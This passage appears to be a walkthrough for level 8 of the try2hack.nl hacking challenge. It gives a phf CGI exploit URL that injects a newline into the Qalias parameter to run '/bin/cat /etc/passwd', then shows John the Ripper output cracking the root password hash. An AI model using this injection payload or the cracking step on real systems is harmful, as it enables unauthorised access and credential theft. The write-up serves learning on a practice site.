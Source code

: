 #### Level 8

I googled cgi + phf and found http://insecure.org/sploits/phf-cgi.html which gave me this old phf exploit:
http://try2hack.nl/cgi-bin/phf?Qalias=%0A/bin/cat%20/etc/passwd

Now you see the root account and the encrypted password.
Then store the passwd file on your computer and use the classic John the Ripper program to crack it:

```
C:\john-386 c:/passwd
Loaded 1 password hash (Traditional DES [24/32 4K])
arse    (root)
guesses: 1  time: 0:00:00:05 (3)    c/s: 86724  trying: ddmy - arsy
```

Password of root is "arse" :)